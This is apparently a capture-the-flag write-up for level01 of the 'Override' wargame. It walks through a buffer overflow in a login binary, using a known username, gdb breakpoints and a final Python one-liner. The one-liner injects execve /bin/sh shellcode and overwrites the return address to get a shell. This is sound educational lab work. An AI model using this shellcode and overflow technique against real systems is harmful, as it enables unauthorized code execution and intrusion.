

# Override / Level01

We have a binary file name level01 we can see its asking for a username and a password.

We can see on the source file the username is dat_will.
So we can bypass this. But after that the password admin just close the program.

We can see two things:
-A bufferflow can be occured on the s variable with fgets.
-The program doesn t verify if there are more on the a_user_name then 7 caracteres.

So the goal is to hide a shellcode on the a_user_name and causing a buffer overflow pointing to the adress a_username.

## Hidding the shellcode.

Using gdb we can see where the variable is:

We breakpoint at 0x0804852d to see if the hidden shellcode works
Using `run <<< $(python -c 'print "dat_will" + "\x90" * 19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"';)`

We can see the shellcode is hidding.

## Causing the overflow

After a few test i see a segfault with this:
`run <<< $(python -c 'print "dat_will" + "\x90" * 19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"';python -c 'print "A" *  282' + "B" * 4;)`

Now we just need to remplace the B with the adress of the shellcode who is 0x0804a050 (reverse always because the computer is reading reverse)

`run <<< $(python -c 'print "dat_will" + "\x90" * 19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"';python -c 'print "A" *  282 + "\x50\xa0\x04\x08"';)`

Now we just need to see where the segfault without gdb is taking.
After a few test i see the segfault is after 80 caracteres.
So we the exploit final is:

> (python -c 'print "dat_will" + "\x90" * 19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"';python -c 'print "A" *  80 + "\x50\xa0\x04\x08"';cat;) | ./level01